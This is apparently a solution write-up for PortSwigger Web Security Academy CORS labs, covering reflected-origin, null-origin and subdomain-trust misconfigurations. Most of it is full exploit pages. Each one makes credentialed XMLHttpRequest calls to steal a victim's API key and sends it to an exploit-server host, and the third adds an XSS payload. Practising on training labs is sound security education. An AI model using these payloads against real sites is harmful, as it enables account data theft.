 1. This lab has a server that simply reflects the request's `Origin` header in its own `Access-Control-Allow-Origin` header and allows for using credentials cross-origin. This completely bypasses the same origin policy, and as such leaves script-based data exfiltration as a possibility. The API key can be stolen by using the following page on the provided exploit server:
```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac811f871f9b20fcc012465d00eb009c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-ac561f7b1fa52098c08c46d70193008d.web-security-academy.net/log?key='+this.responseText;
};
</script>
```
2. This lab is similar to the previous, but instead of echoing any origin it only reflects those that are in a trusted whitelist. However, the `null` Origin is on the whitelist, so the following exploit works similarly to above by forcing a `null` origin:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac991f0e1eced1dfc02d206500180022.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-ac991f801e51d1e0c01a202701de00e0.web-security-academy.net/log?key='+this.responseText;
};
</script>"></iframe>
```
3. This lab is similar to the previous but it correctly ensures that CORS requests are coming from a subdomain. However, it does not ensure HTTPS, so it is vulnerable to a MITM based XSS attack. As that is not possible, a normal XSS is also possible because the `productId` parameter of the stock checking feature is vulnerable to XSS. As such, the following page on the exploit server can trigger the XSS and exfiltrate the victim's API key:
```
<script>
document.location = 'http://stock.ac7a1f801fa32062c03048e50004009b.web-security-academy.net/?productId=1<script>var req=new XMLHttpRequest();req.onload=reqListener;req.open("get", "https://ac7a1f801fa32062c03048e50004009b.web-security-academy.net/accountDetails", true);req.withCredentials=true;req.send();function reqListener(){location="https://exploit-ac6e1fc11f28207ec0eb482c018f0056.web-security-academy.net/log?data="%2bthis.responseText;};%3c/script>&storeId=1';
</script>
```
4. This lab is not possible to solve without Burp Pro
